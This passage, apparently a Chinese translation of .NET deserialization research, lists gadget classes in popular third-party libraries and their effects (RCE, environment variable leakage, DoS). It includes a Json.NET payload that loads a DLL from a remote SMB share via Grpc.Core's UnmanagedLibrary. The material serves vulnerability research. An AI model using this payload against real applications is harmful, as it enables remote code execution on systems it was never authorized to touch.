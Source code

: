 当看到庞大的反序列化类型黑名单时，请不要放弃。我建议执行以下操作：

-   仔细研究此列表。确保它包含所有已知的小工具。如果发现缺失或列表中有错误（如拼写错误），深入研究可用于反序列化目标的小工具。
-   研究目标序列化器的功能：
    -   在目标产品代码库中寻找潜在的反序列化小工具，从直接的 RCE 小工具到允许操作产品功能的小工具。
    -   在产品使用的第三方库中寻找潜在的反序列化小工具（请参见下一章）。

### 2 反序列化小工具在第三方库中

我已经展示了在产品代码库中可能找到的反序列化小工具。虽然 `.NET Framework` 实现了多个可能用于滥用反序列化的类，但这已经是一个常见的知识点，供应商正在进行调整。

我决定快速查看几个流行的 .NET 第三方库（其中一些也适用于 .NET 5）。在其中我找到了一些有趣的反序列化小工具，在研究中可能会有用。以下表格呈现了这些小工具。

| **Library** | **Gadget(s) name** | **Effect** | **Brief description** |
| --- | --- | --- | --- |
| Grpc Core | UnmanagedLibrary | RCE | Remote (SMB) or local native DLL loading |
| Xunit Runner Utility | Xunit1Executor | RCE | Remote (SMB) or local mixed/special DLL loading |
| MongoDB Libmongocrypt | WindowsLibrary  <br>LinuxLibrary  <br>DarwinLibraryLoader | RCE | Remote (SMB) or local  <br>native DLL loading |
| Xunit Execution | PreserveWorkingFolder | Depends on  <br>application, may  <br>lead to RCE | Allows to modify a current  <br>directory for the process.  <br>Allows to abuse file  <br>operations based on  <br>relative paths. |
| Microsoft Azure  <br>Cosmos | QueryPartitionProvider | Serializes given  <br>object with  <br>Json.NET, leads to  <br>RCE when chained | Allows to serialize given  <br>object with Json.NET. May  <br>be chained for RCE or other  <br>effects. Will be described in  <br>a different chapter. |
| Microsoft  <br>Application Insights | FileDiagnosticsTelemetryModule | Environment  <br>variable leak +  <br>potential DoS | Allows to leak environment  <br>variable through SMB.  <br>If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation17. |
| NLOG | CountingSingleProcessFileAppender  <br>SingleProcessFileAppender  <br>MutextMultiProcessFileAppender | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory/file creation. |
| Google Apis | FileDataStore | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation. |

表 1：第三方库中的反序列化小工具

以下子章节详细描述了这些小工具。

#### 2.1 Grpc.Core – UnmanagedLibrary 远程 DLL 加载

目标类：`Grpc.Core.Internal.UnmanagedLibrary`

适用（序列化器）：`Json.NET`、`XamlReader`、`MessagePack` 及可能其他序列化器。

适用（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：2.46.6

效果：对于 Windows - 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语链相结合）。对于 Linux/Mac - 本地 DLL 加载。

小工具（Json.NET）：

```plain
{ 
    "$type":"Grpc.Core.Internal.UnmanagedLibrary, Grpc.Core, Version=2.0.0.0,  
Culture=neutral, PublicKeyToken=d754f35622e28bad", 
    "libraryPathAlternatives":["\\\\192.168.1.100\\poc\\native.dll"] 
}
```

代码段 35 Grpc.Core UnmanagedLibrary gadget

描述： `Grpc.Core.Internal.UnmanagedLibrary` 类实现了一个公共构造函数，该构造函数接受一个字符串数组作为输入。
